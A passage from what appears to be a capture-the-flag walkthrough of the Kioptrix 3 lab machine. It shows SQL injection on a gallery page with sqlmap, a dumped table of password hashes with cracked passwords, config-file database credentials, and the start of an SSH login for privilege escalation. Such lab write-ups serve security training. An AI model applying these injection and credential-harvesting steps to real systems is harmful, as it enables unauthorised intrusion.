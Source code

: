 #### Method 3: SQL injection through Gallery

`kioptrix3.com/gallery/gallery.php?id=1` is vulnerable to SQL injection through the `id` parameter.  
There are multiple ways to exploit this vulnerability, easiest is just using sqlmap. Ultimately you'll find MD5 hashes for a couple of accounts. Password for loneferret matches the one we found through hydra!  

```    
Database: gallery  
Table: dev_accounts  
[2 entries]  
+----+------------+---------------------------------------------+  
| id | username   | password                                    |  
+----+------------+---------------------------------------------+  
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |  
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |  
+----+------------+---------------------------------------------+  
```    

  
Also note that with the second method, you can do some enumeration on the machine and you'll find the following file particularly interesting:
`/home/www/kioptrix3.com/gallery/gconfig.php` as it contains phpmyAdmin credentials (`root`/`fuckeyou`) with enough privileges to find the same database discussed earlier. These creds don't work for SSH though.  

_____________________________________________________________________________

## 4\. Privilege Escalation to root

Now that we're inside let's find some useful data. I logged in with loneferret's credentials.  


```
root@kali:~# ssh loneferret@192.168.1.70  
loneferret@192.168.1.70's password:   
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686  
  
The programs included with the Ubuntu system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by  
applicable law.  
  
To access official Ubuntu documentation, please visit:  
http://help.ubuntu.com/  
Last login: Wed Dec 21 15:49:18 2016 from 192.168.1.69  
loneferret@Kioptrix3:~$   



loneferret@Kioptrix3:~$ ls -al  
total 64  
drwxr-xr-x 3 loneferret loneferret  4096 2011-04-17 08:59 .  
drwxr-xr-x 5 root       root        4096 2011-04-16 07:54 ..  
-rw-r--r-- 1 loneferret users         13 2011-04-18 11:44 .bash_history  
-rw-r--r-- 1 loneferret loneferret   220 2011-04-11 17:00 .bash_logout  
-rw-r--r-- 1 loneferret loneferret  2940 2011-04-11 17:00 .bashrc  
-rwxrwxr-x 1 root       root       26275 2011-01-12 10:45 checksec.sh  
-rw-r--r-- 1 root       root         224 2011-04-16 08:51 CompanyPolicy.README  
-rw------- 1 root       root          15 2011-04-15 21:21 .nano_history  
-rw-r--r-- 1 loneferret loneferret   586 2011-04-11 17:00 .profile  
drwx------ 2 loneferret loneferret  4096 2011-04-14 11:05 .ssh  
-rw-r--r-- 1 loneferret loneferret     0 2011-04-11 18:00 .sudo_as_admin_successful  
loneferret@Kioptrix3:~$ cat CompanyPolicy.README   
```